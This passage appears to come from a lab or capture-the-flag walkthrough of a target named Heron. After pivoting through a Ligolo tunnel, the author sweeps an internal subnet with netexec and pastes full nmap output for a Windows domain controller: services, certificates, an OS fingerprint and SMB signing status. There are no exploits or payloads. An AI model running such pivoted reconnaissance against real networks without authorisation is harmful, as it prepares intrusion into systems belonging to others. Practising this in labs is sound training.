Now from the Ligolo connection I can run a samba scan and identify that this is the DC on the internal subnet:

```bash
──(millycash㉿kali-bello)-[~/Downloads/Heron]
└─$ netexec smb 172.16.10.0/24            
SMB         172.16.10.100   445    MUCDC            [*] Windows Server 2022 Standard 20348 x64 (name:MUCDC) (domain:heron.vl) (signing:True) (SMBv1:True) (Null Auth:True)
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00

```

172.16.10.100

I will execute a full scan of the TCP services to identify what other is open here:

```bash
PORT      STATE SERVICE       REASON         VERSION
53/tcp    open  domain        syn-ack ttl 64 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 64 Microsoft IIS httpd 10.0
|_http-title: Heron Corp
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  syn-ack ttl 64 Microsoft Windows Kerberos (server time: 2026-03-15 17:48:22Z)
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: heron.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=mucdc.heron.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:mucdc.heron.vl
| Issuer: commonName=heron-CA/domainComponent=heron
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha512WithRSAEncryption
| Not valid before: 2025-05-13T00:50:58
| Not valid after:  2026-05-13T00:50:58
| MD5:     78fb 92d1 f60d 4816 b933 adbb 457e 696e
| SHA-1:   2d22 48bb 2d8e ed8f 3ccc 6e88 668c 506b 0ab4 8c98
| SHA-256: c2e9 baa9 6b47 d231 454f 68b6 6806 89cc 5dd1 9a18 52d2 1a61 9679 ce94 4195 9f2a
| -----BEGIN CERTIFICATE-----
| MIIHDzCCBPegAwIBAgITFAAAAAPTlBWwtVEI5gAAAAAAAzANBgkqhkiG9w0BAQ0F
| ADA+MRIwEAYKCZImiZPyLGQBGRYCdmwxFTATBgoJkiaJk/IsZAEZFgVoZXJvbjER
| MA8GA1UEAxMIaGVyb24tQ0EwHhcNMjUwNTEzMDA1MDU4WhcNMjYwNTEzMDA1MDU4
| WjAZMRcwFQYDVQQDEw5tdWNkYy5oZXJvbi52bDCCASIwDQYJKoZIhvcNAQEBBQAD
| ggEPADCCAQoCggEBAN9ilef+dgyP+ea1IJeQGgBpjusqbtW3KjGJPwnjFXnq+eYS
| LUJmm/mi08tHjI1tZvoAWQ9pOg9T7JmvByNxLZOhktp5npLVWIJDsMOQQQfoeSI0
| 4HhYI7zbRWV4QJZpuusr88wFOUf/+PVCtko3iPQe9NMDN433asNZOM7Cm0luw1Xz
| IHP7eglT1h5WD1VmAa97heFWjMG1keb6lx1RpnUW5IewLODgvuV01WaYywFOxp95
| aD+HzbhweeTIGFvDt7AbaTsmldx/tygupyKDb61vh/uAN4ewMhaZ7H3QCzeFZLsd
| JsigoakfxBi3uE1eczp7fD5FJ+weJ+J+BFyBpX0CAwEAAaOCAykwggMlMC8GCSsG
| AQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAdBgNV
| HSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgGCSqG
| SIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDALBglg
| hkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQMEAQUw
| BwYFKw4DAgcwCgYIKoZIhvcNAwcwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEEAYI3
| GQIBoDAELlMtMS01LTIxLTE1NjgzNTgxNjMtMjkwMTA2NDE0Ni0zMzE2NDkxNjc0
| LTEwMDAwOgYDVR0RBDMwMaAfBgkrBgEEAYI3GQGgEgQQtwEQpfSAYEu5npYyhIX6
| 34IObXVjZGMuaGVyb24udmwwHQYDVR0OBBYEFHXQ+f5uxHik/T7l+2RJUlL6oQj5
| MB8GA1UdIwQYMBaAFEOxbTyGF0D1rD0zTrmrmvSoi3dnMIHBBgNVHR8EgbkwgbYw
| gbOggbCgga2GgapsZGFwOi8vL0NOPWhlcm9uLUNBLENOPW11Y2RjLENOPUNEUCxD
| Tj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1
| cmF0aW9uLERDPWhlcm9uLERDPXZsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/
| YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCBtwYIKwYBBQUH
| AQEEgaowgacwgaQGCCsGAQUFBzAChoGXbGRhcDovLy9DTj1oZXJvbi1DQSxDTj1B
| SUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29u
| ZmlndXJhdGlvbixEQz1oZXJvbixEQz12bD9jQUNlcnRpZmljYXRlP2Jhc2U/b2Jq
| ZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTANBgkqhkiG9w0BAQ0FAAOC
| AgEA1x60bbfCoM/j/3+/ckk0fobC4+gRCh8S4G/GfmkaGsgr/bh70Kj2Rwjyyc2O
| M2qaUeEymCs8RPQBtowGTccvS8Jm2G2NjBuO35S21/v0jm+N0M9wr40o36Lf1LCn
| i3jr8DwXInBqzKSiSoeQrXDii1VteTIyNzjvUVcQqGYuKjogM/7MZ5p8REtZBwL7
| MNFqr35fSLEjVyfpgjGeq/0/MDwPKQmObzUoI+UcbhfbRFZ5duOt1/Fnzog6vTbA
| BC/ltCzo6tzdzKFRfer7mjNPsOZ5jbe86UdXrs3wAgWrF+c/fclz44ekK/BvXd5S
| P8jT6SqByw+WNs4yYHrJ+LCJvPwiYVwjNpRTxWPkI4cFQGDTDD2FeBkpwLhAk+zs
| nrabO0E3oDpHu0oc+PE9fDqSdJdHCp3SWjVv+1Ln2t/sZZxiFHnRYRHoWGv21ST7
| Li3qlqx1PGBVw4KvLqysVzzIkSB/8hoicZnBvQkAssctVvXorCWW0lpQAZn8Llzl
| h3gdbl6P/W7vuVBBc1DyU4MU3kFOShyFk0ThmXcBbbo4/+Em2xXE7B70t6gZEasv
| QpT7lrB7Yewp3XLBVB81NRSt91fAEHML7s2FwsvQJj7ju0L3+AJu592o8zNMcPSs
| /TD3W2TZZT+rXe7IjL8p1ghyDPaJOxNwH/LHorYy9/yflS8=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds  syn-ack ttl 64 Windows Server 2022 Standard 20348 microsoft-ds (workgroup: HERON)
464/tcp   open  kpasswd5?     syn-ack ttl 64
593/tcp   open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: heron.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=mucdc.heron.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:mucdc.heron.vl
| Issuer: commonName=heron-CA/domainComponent=heron
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha512WithRSAEncryption
| Not valid before: 2025-05-13T00:50:58
| Not valid after:  2026-05-13T00:50:58
| MD5:     78fb 92d1 f60d 4816 b933 adbb 457e 696e
| SHA-1:   2d22 48bb 2d8e ed8f 3ccc 6e88 668c 506b 0ab4 8c98
| SHA-256: c2e9 baa9 6b47 d231 454f 68b6 6806 89cc 5dd1 9a18 52d2 1a61 9679 ce94 4195 9f2a
| -----BEGIN CERTIFICATE-----
| MIIHDzCCBPegAwIBAgITFAAAAAPTlBWwtVEI5gAAAAAAAzANBgkqhkiG9w0BAQ0F
| ADA+MRIwEAYKCZImiZPyLGQBGRYCdmwxFTATBgoJkiaJk/IsZAEZFgVoZXJvbjER
| MA8GA1UEAxMIaGVyb24tQ0EwHhcNMjUwNTEzMDA1MDU4WhcNMjYwNTEzMDA1MDU4
| WjAZMRcwFQYDVQQDEw5tdWNkYy5oZXJvbi52bDCCASIwDQYJKoZIhvcNAQEBBQAD
| ggEPADCCAQoCggEBAN9ilef+dgyP+ea1IJeQGgBpjusqbtW3KjGJPwnjFXnq+eYS
| LUJmm/mi08tHjI1tZvoAWQ9pOg9T7JmvByNxLZOhktp5npLVWIJDsMOQQQfoeSI0
| 4HhYI7zbRWV4QJZpuusr88wFOUf/+PVCtko3iPQe9NMDN433asNZOM7Cm0luw1Xz
| IHP7eglT1h5WD1VmAa97heFWjMG1keb6lx1RpnUW5IewLODgvuV01WaYywFOxp95
| aD+HzbhweeTIGFvDt7AbaTsmldx/tygupyKDb61vh/uAN4ewMhaZ7H3QCzeFZLsd
| JsigoakfxBi3uE1eczp7fD5FJ+weJ+J+BFyBpX0CAwEAAaOCAykwggMlMC8GCSsG
| AQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAdBgNV
| HSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgGCSqG
| SIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDALBglg
| hkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQMEAQUw
| BwYFKw4DAgcwCgYIKoZIhvcNAwcwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEEAYI3
| GQIBoDAELlMtMS01LTIxLTE1NjgzNTgxNjMtMjkwMTA2NDE0Ni0zMzE2NDkxNjc0
| LTEwMDAwOgYDVR0RBDMwMaAfBgkrBgEEAYI3GQGgEgQQtwEQpfSAYEu5npYyhIX6
| 34IObXVjZGMuaGVyb24udmwwHQYDVR0OBBYEFHXQ+f5uxHik/T7l+2RJUlL6oQj5
| MB8GA1UdIwQYMBaAFEOxbTyGF0D1rD0zTrmrmvSoi3dnMIHBBgNVHR8EgbkwgbYw
| gbOggbCgga2GgapsZGFwOi8vL0NOPWhlcm9uLUNBLENOPW11Y2RjLENOPUNEUCxD
| Tj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1
| cmF0aW9uLERDPWhlcm9uLERDPXZsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/
| YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCBtwYIKwYBBQUH
| AQEEgaowgacwgaQGCCsGAQUFBzAChoGXbGRhcDovLy9DTj1oZXJvbi1DQSxDTj1B
| SUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29u
| ZmlndXJhdGlvbixEQz1oZXJvbixEQz12bD9jQUNlcnRpZmljYXRlP2Jhc2U/b2Jq
| ZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTANBgkqhkiG9w0BAQ0FAAOC
| AgEA1x60bbfCoM/j/3+/ckk0fobC4+gRCh8S4G/GfmkaGsgr/bh70Kj2Rwjyyc2O
| M2qaUeEymCs8RPQBtowGTccvS8Jm2G2NjBuO35S21/v0jm+N0M9wr40o36Lf1LCn
| i3jr8DwXInBqzKSiSoeQrXDii1VteTIyNzjvUVcQqGYuKjogM/7MZ5p8REtZBwL7
| MNFqr35fSLEjVyfpgjGeq/0/MDwPKQmObzUoI+UcbhfbRFZ5duOt1/Fnzog6vTbA
| BC/ltCzo6tzdzKFRfer7mjNPsOZ5jbe86UdXrs3wAgWrF+c/fclz44ekK/BvXd5S
| P8jT6SqByw+WNs4yYHrJ+LCJvPwiYVwjNpRTxWPkI4cFQGDTDD2FeBkpwLhAk+zs
| nrabO0E3oDpHu0oc+PE9fDqSdJdHCp3SWjVv+1Ln2t/sZZxiFHnRYRHoWGv21ST7
| Li3qlqx1PGBVw4KvLqysVzzIkSB/8hoicZnBvQkAssctVvXorCWW0lpQAZn8Llzl
| h3gdbl6P/W7vuVBBc1DyU4MU3kFOShyFk0ThmXcBbbo4/+Em2xXE7B70t6gZEasv
| QpT7lrB7Yewp3XLBVB81NRSt91fAEHML7s2FwsvQJj7ju0L3+AJu592o8zNMcPSs
| /TD3W2TZZT+rXe7IjL8p1ghyDPaJOxNwH/LHorYy9/yflS8=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: heron.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mucdc.heron.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:mucdc.heron.vl
| Issuer: commonName=heron-CA/domainComponent=heron
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha512WithRSAEncryption
| Not valid before: 2025-05-13T00:50:58
| Not valid after:  2026-05-13T00:50:58
| MD5:     78fb 92d1 f60d 4816 b933 adbb 457e 696e
| SHA-1:   2d22 48bb 2d8e ed8f 3ccc 6e88 668c 506b 0ab4 8c98
| SHA-256: c2e9 baa9 6b47 d231 454f 68b6 6806 89cc 5dd1 9a18 52d2 1a61 9679 ce94 4195 9f2a
| -----BEGIN CERTIFICATE-----
| MIIHDzCCBPegAwIBAgITFAAAAAPTlBWwtVEI5gAAAAAAAzANBgkqhkiG9w0BAQ0F
| ADA+MRIwEAYKCZImiZPyLGQBGRYCdmwxFTATBgoJkiaJk/IsZAEZFgVoZXJvbjER
| MA8GA1UEAxMIaGVyb24tQ0EwHhcNMjUwNTEzMDA1MDU4WhcNMjYwNTEzMDA1MDU4
| WjAZMRcwFQYDVQQDEw5tdWNkYy5oZXJvbi52bDCCASIwDQYJKoZIhvcNAQEBBQAD
| ggEPADCCAQoCggEBAN9ilef+dgyP+ea1IJeQGgBpjusqbtW3KjGJPwnjFXnq+eYS
| LUJmm/mi08tHjI1tZvoAWQ9pOg9T7JmvByNxLZOhktp5npLVWIJDsMOQQQfoeSI0
| 4HhYI7zbRWV4QJZpuusr88wFOUf/+PVCtko3iPQe9NMDN433asNZOM7Cm0luw1Xz
| IHP7eglT1h5WD1VmAa97heFWjMG1keb6lx1RpnUW5IewLODgvuV01WaYywFOxp95
| aD+HzbhweeTIGFvDt7AbaTsmldx/tygupyKDb61vh/uAN4ewMhaZ7H3QCzeFZLsd
| JsigoakfxBi3uE1eczp7fD5FJ+weJ+J+BFyBpX0CAwEAAaOCAykwggMlMC8GCSsG
| AQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAdBgNV
| HSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgGCSqG
| SIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDALBglg
| hkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQMEAQUw
| BwYFKw4DAgcwCgYIKoZIhvcNAwcwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEEAYI3
| GQIBoDAELlMtMS01LTIxLTE1NjgzNTgxNjMtMjkwMTA2NDE0Ni0zMzE2NDkxNjc0
| LTEwMDAwOgYDVR0RBDMwMaAfBgkrBgEEAYI3GQGgEgQQtwEQpfSAYEu5npYyhIX6
| 34IObXVjZGMuaGVyb24udmwwHQYDVR0OBBYEFHXQ+f5uxHik/T7l+2RJUlL6oQj5
| MB8GA1UdIwQYMBaAFEOxbTyGF0D1rD0zTrmrmvSoi3dnMIHBBgNVHR8EgbkwgbYw
| gbOggbCgga2GgapsZGFwOi8vL0NOPWhlcm9uLUNBLENOPW11Y2RjLENOPUNEUCxD
| Tj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1
| cmF0aW9uLERDPWhlcm9uLERDPXZsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/
| YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCBtwYIKwYBBQUH
| AQEEgaowgacwgaQGCCsGAQUFBzAChoGXbGRhcDovLy9DTj1oZXJvbi1DQSxDTj1B
| SUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29u
| ZmlndXJhdGlvbixEQz1oZXJvbixEQz12bD9jQUNlcnRpZmljYXRlP2Jhc2U/b2Jq
| ZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTANBgkqhkiG9w0BAQ0FAAOC
| AgEA1x60bbfCoM/j/3+/ckk0fobC4+gRCh8S4G/GfmkaGsgr/bh70Kj2Rwjyyc2O
| M2qaUeEymCs8RPQBtowGTccvS8Jm2G2NjBuO35S21/v0jm+N0M9wr40o36Lf1LCn
| i3jr8DwXInBqzKSiSoeQrXDii1VteTIyNzjvUVcQqGYuKjogM/7MZ5p8REtZBwL7
| MNFqr35fSLEjVyfpgjGeq/0/MDwPKQmObzUoI+UcbhfbRFZ5duOt1/Fnzog6vTbA
| BC/ltCzo6tzdzKFRfer7mjNPsOZ5jbe86UdXrs3wAgWrF+c/fclz44ekK/BvXd5S
| P8jT6SqByw+WNs4yYHrJ+LCJvPwiYVwjNpRTxWPkI4cFQGDTDD2FeBkpwLhAk+zs
| nrabO0E3oDpHu0oc+PE9fDqSdJdHCp3SWjVv+1Ln2t/sZZxiFHnRYRHoWGv21ST7
| Li3qlqx1PGBVw4KvLqysVzzIkSB/8hoicZnBvQkAssctVvXorCWW0lpQAZn8Llzl
| h3gdbl6P/W7vuVBBc1DyU4MU3kFOShyFk0ThmXcBbbo4/+Em2xXE7B70t6gZEasv
| QpT7lrB7Yewp3XLBVB81NRSt91fAEHML7s2FwsvQJj7ju0L3+AJu592o8zNMcPSs
| /TD3W2TZZT+rXe7IjL8p1ghyDPaJOxNwH/LHorYy9/yflS8=
|_-----END CERTIFICATE-----
3269/tcp  open  ssl/ldap      syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: heron.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=mucdc.heron.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:mucdc.heron.vl
| Issuer: commonName=heron-CA/domainComponent=heron
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha512WithRSAEncryption
| Not valid before: 2025-05-13T00:50:58
| Not valid after:  2026-05-13T00:50:58
| MD5:     78fb 92d1 f60d 4816 b933 adbb 457e 696e
| SHA-1:   2d22 48bb 2d8e ed8f 3ccc 6e88 668c 506b 0ab4 8c98
| SHA-256: c2e9 baa9 6b47 d231 454f 68b6 6806 89cc 5dd1 9a18 52d2 1a61 9679 ce94 4195 9f2a
| -----BEGIN CERTIFICATE-----
| MIIHDzCCBPegAwIBAgITFAAAAAPTlBWwtVEI5gAAAAAAAzANBgkqhkiG9w0BAQ0F
| ADA+MRIwEAYKCZImiZPyLGQBGRYCdmwxFTATBgoJkiaJk/IsZAEZFgVoZXJvbjER
| MA8GA1UEAxMIaGVyb24tQ0EwHhcNMjUwNTEzMDA1MDU4WhcNMjYwNTEzMDA1MDU4
| WjAZMRcwFQYDVQQDEw5tdWNkYy5oZXJvbi52bDCCASIwDQYJKoZIhvcNAQEBBQAD
| ggEPADCCAQoCggEBAN9ilef+dgyP+ea1IJeQGgBpjusqbtW3KjGJPwnjFXnq+eYS
| LUJmm/mi08tHjI1tZvoAWQ9pOg9T7JmvByNxLZOhktp5npLVWIJDsMOQQQfoeSI0
| 4HhYI7zbRWV4QJZpuusr88wFOUf/+PVCtko3iPQe9NMDN433asNZOM7Cm0luw1Xz
| IHP7eglT1h5WD1VmAa97heFWjMG1keb6lx1RpnUW5IewLODgvuV01WaYywFOxp95
| aD+HzbhweeTIGFvDt7AbaTsmldx/tygupyKDb61vh/uAN4ewMhaZ7H3QCzeFZLsd
| JsigoakfxBi3uE1eczp7fD5FJ+weJ+J+BFyBpX0CAwEAAaOCAykwggMlMC8GCSsG
| AQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAdBgNV
| HSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgGCSqG
| SIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDALBglg
| hkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQMEAQUw
| BwYFKw4DAgcwCgYIKoZIhvcNAwcwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEEAYI3
| GQIBoDAELlMtMS01LTIxLTE1NjgzNTgxNjMtMjkwMTA2NDE0Ni0zMzE2NDkxNjc0
| LTEwMDAwOgYDVR0RBDMwMaAfBgkrBgEEAYI3GQGgEgQQtwEQpfSAYEu5npYyhIX6
| 34IObXVjZGMuaGVyb24udmwwHQYDVR0OBBYEFHXQ+f5uxHik/T7l+2RJUlL6oQj5
| MB8GA1UdIwQYMBaAFEOxbTyGF0D1rD0zTrmrmvSoi3dnMIHBBgNVHR8EgbkwgbYw
| gbOggbCgga2GgapsZGFwOi8vL0NOPWhlcm9uLUNBLENOPW11Y2RjLENOPUNEUCxD
| Tj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1
| cmF0aW9uLERDPWhlcm9uLERDPXZsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/
| YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCBtwYIKwYBBQUH
| AQEEgaowgacwgaQGCCsGAQUFBzAChoGXbGRhcDovLy9DTj1oZXJvbi1DQSxDTj1B
| SUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29u
| ZmlndXJhdGlvbixEQz1oZXJvbixEQz12bD9jQUNlcnRpZmljYXRlP2Jhc2U/b2Jq
| ZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTANBgkqhkiG9w0BAQ0FAAOC
| AgEA1x60bbfCoM/j/3+/ckk0fobC4+gRCh8S4G/GfmkaGsgr/bh70Kj2Rwjyyc2O
| M2qaUeEymCs8RPQBtowGTccvS8Jm2G2NjBuO35S21/v0jm+N0M9wr40o36Lf1LCn
| i3jr8DwXInBqzKSiSoeQrXDii1VteTIyNzjvUVcQqGYuKjogM/7MZ5p8REtZBwL7
| MNFqr35fSLEjVyfpgjGeq/0/MDwPKQmObzUoI+UcbhfbRFZ5duOt1/Fnzog6vTbA
| BC/ltCzo6tzdzKFRfer7mjNPsOZ5jbe86UdXrs3wAgWrF+c/fclz44ekK/BvXd5S
| P8jT6SqByw+WNs4yYHrJ+LCJvPwiYVwjNpRTxWPkI4cFQGDTDD2FeBkpwLhAk+zs
| nrabO0E3oDpHu0oc+PE9fDqSdJdHCp3SWjVv+1Ln2t/sZZxiFHnRYRHoWGv21ST7
| Li3qlqx1PGBVw4KvLqysVzzIkSB/8hoicZnBvQkAssctVvXorCWW0lpQAZn8Llzl
| h3gdbl6P/W7vuVBBc1DyU4MU3kFOShyFk0ThmXcBbbo4/+Em2xXE7B70t6gZEasv
| QpT7lrB7Yewp3XLBVB81NRSt91fAEHML7s2FwsvQJj7ju0L3+AJu592o8zNMcPSs
| /TD3W2TZZT+rXe7IjL8p1ghyDPaJOxNwH/LHorYy9/yflS8=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
|_ssl-date: 2026-03-15T17:49:56+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: HERON
|   NetBIOS_Domain_Name: HERON
|   NetBIOS_Computer_Name: MUCDC
|   DNS_Domain_Name: heron.vl
|   DNS_Computer_Name: mucdc.heron.vl
|   DNS_Tree_Name: heron.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-15T17:49:16+00:00
| ssl-cert: Subject: commonName=mucdc.heron.vl
| Issuer: commonName=mucdc.heron.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-14T03:13:33
| Not valid after:  2026-09-13T03:13:33
| MD5:     0afa c853 64a9 6385 9667 33a6 a92b a89f
| SHA-1:   e587 4694 6e69 14e4 e663 d398 ae70 3717 0404 a9fa
| SHA-256: ee8e 6677 c6e1 c005 c1a4 1796 d602 65a1 cd68 4ccb da81 46ca 1d71 77fb 1765 7275
| -----BEGIN CERTIFICATE-----
| MIIC4DCCAcigAwIBAgIQZa3hEULFUoVLodnuFJ84+zANBgkqhkiG9w0BAQsFADAZ
| MRcwFQYDVQQDEw5tdWNkYy5oZXJvbi52bDAeFw0yNjAzMTQwMzEzMzNaFw0yNjA5
| MTMwMzEzMzNaMBkxFzAVBgNVBAMTDm11Y2RjLmhlcm9uLnZsMIIBIjANBgkqhkiG
| 9w0BAQEFAAOCAQ8AMIIBCgKCAQEAsfwC0tIpHGdA8HCI4V7fgMGj7U5EmrzQfRuv
| qFnJN1cv9FMjkmPzmeOaJ17FQ2gBNOELXnd3G8bG4yNWBkWw3bMsjkE5mf5sb5J/
| 8iPERq1YB+fKTuAhmMzoF8cUqGa23Tu9ak3QVic8SWVvl68YFIetP4ZJU/4nxtvD
| P0MrsILH9848KMpRittPSbVrXRVICNITvV+kJHUpqp4DOadjmia46LzZ3vB6NpDj
| YYkucgEs+EfXIKTyz2rr+WXOw4wny786kPR78gC4FjWmhk60Mbh1c15Cgjeso/lT
| UPIYUzidVx5D+H+5rTNHMuTQAAEGdPvF4BpGTQfroDw9ypNQoQIDAQABoyQwIjAT
| BgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQAD
| ggEBAF8tWg7rRGkAraQ3PhIxSHKWtb0wOWil5IP99w7CKz4yTr16tif1O7xNONK/
| lHaheKVjcU8iviqqgrXL+31Gx36I0CYOaCurR5kVLqNpLGmbnUdl4FductB/ZRiR
| 9A/6rCMdZMcFVeqfjMIVKdFi6+TD25KfKf9WpnBrxcwfIr0FVhq7NnquHjEATEDE
| TI+V1BzHhqXssJHq2a+jcvMhRktZTEK3+c2hb0pGytpMnVJyZxL78yH7hdgFDdMU
| h+8KZV6eCG3rJV3axpVXxJ/kxJEX88dMaQWtXCtgSephllWl4roNPABvl/cBu8jU
| kO8Cw2WxlA9RTTaBh+8ZyfqaH9I=
|_-----END CERTIFICATE-----
9389/tcp  open  mc-nmf        syn-ack ttl 64 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49682/tcp open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
49691/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49709/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49713/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49729/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/15%OT=53%CT=%CU=%PV=Y%G=N%TM=69B6F146%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=10A%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=106%GCD=1%ISR=10B%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 2.872 days (since Thu Mar 12 21:54:48 2026)
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: Host: MUCDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
